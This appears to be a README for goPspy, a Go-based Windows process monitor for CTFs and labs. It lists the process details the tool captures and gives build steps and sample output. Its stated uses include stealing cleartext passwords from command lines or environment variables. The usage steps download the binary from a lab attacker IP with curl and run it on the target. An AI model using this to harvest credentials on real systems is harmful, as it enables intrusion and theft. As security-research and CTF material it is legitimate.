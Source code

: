 ######
goPspy
######

| Same concept as pspy but for windows, using Golang.
| For files and pipes monitoring : https://gitlab.com/charles.gargasson/gofspy
|
| Use cases

* Detect any recurring/planned activity on machine (usefull for bots into CTFs challenges)
* Steal clear passwords from cmdline or env
* Check for (unwanted) privileges

|
| Similar projects :

* https://github.com/xct/winpspy (include files monitoring as well)

|

| Retrieved infos when you have rights on process

* PROCESS_QUERY_INFORMATION|windows.PROCESS_VM_READ
    * cmdline
    * workdir
    * environment
    * user
    * session
    * privileges
    * restricted
    * elevated (UAC status)
    * integrity level
    * pid
    * exepath
* PROCESS_QUERY_INFORMATION
    * user
    * session
    * privileges
    * restricted
    * elevated (UAC status)
    * integrity level
    * pid
    * exepath
* PROCESS_QUERY_LIMITED_INFORMATION
    * pid
    * exepath

|

| Retrieved infos if unable to open any handle

* pid
* exename

|

*****
Build
*****

| crosscompile

.. code-block:: bash

    sudo bash dockerbuild.sh
    sudo cp bin/gopspy.exe /var/www/html/
    sudo cp bin/gopspy32.exe /var/www/html/
    sudo chmod 644 /var/www/html/gopspy*.exe

|
| Pre-compiled releases, for lab/ctf (don't trust binaries from strangers)

- https://dl.offensive.run/compiledmyself/gopspy.exe
- https://dl.offensive.run/compiledmyself/gopspy32.exe

|

*****
Usage
*****

| The program run indefinitely

.. code-block:: bash

    curl.exe http://10.10.14.121/gopspy.exe -o gopspy.exe
    Start-Process -NoNewWindow -FilePath "C:\Users\user\Desktop\gopspy.exe"
    Start-Process -NoNewWindow -FilePath "C:\Users\user\Desktop\gopspy.exe" -ArgumentList "-getenv"
    # wget http://10.10.14.121/gopspy.exe -O gopspy.exe
    
.. code-block:: bash

    Stop-Process -Name "gopspy"
    taskkill /F /IM gopspy.exe
    
|

******
Output
******

.. code-block::

    -------------------------------------------------- 16:20:34 --------------------------------------------------

    PID: 9252
    EXE: msedge.exe
    CMD: "C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe" --no-startup-window --win-session-start
    DIR: C:\Program Files (x86)\Microsoft\Edge\Application\134.0.3124.72\
    ELEVATED (UAC): false
    RESTRICTED: false
    INTEGRITY: MEDIUM
    USER: w11\user
    SESSION: 1
    PRIVILEGES:
    - SeUndockPrivilege: false
    - SeIncreaseWorkingSetPrivilege: false
    - SeTimeZonePrivilege: false
    - SeShutdownPrivilege: false
    - SeChangeNotifyPrivilege: true
    PTREE: 5436 > 5484 explorer.exe > 9252

    -------------------------------------------------- 16:21:55 --------------------------------------------------

    PID: 15952
    CMD: "C:\Windows\system32\whoami.exe"
    DIR: C:\Users\user\Desktop\
    ELEVATED (UAC): false
    RESTRICTED: false
    INTEGRITY: MEDIUM
    USER: w11\user
    SESSION: 1
    PRIVILEGES:
    - SeShutdownPrivilege: false
    - SeChangeNotifyPrivilege: true
    - SeUndockPrivilege: false
    - SeIncreaseWorkingSetPrivilege: false
    - SeTimeZonePrivilege: false
    PTREE: 5436 > 5484 explorer.exe > 17436 powershell.exe > 15952

|

***********
Third Party
***********

| goPspy don't relies on third party libraries

|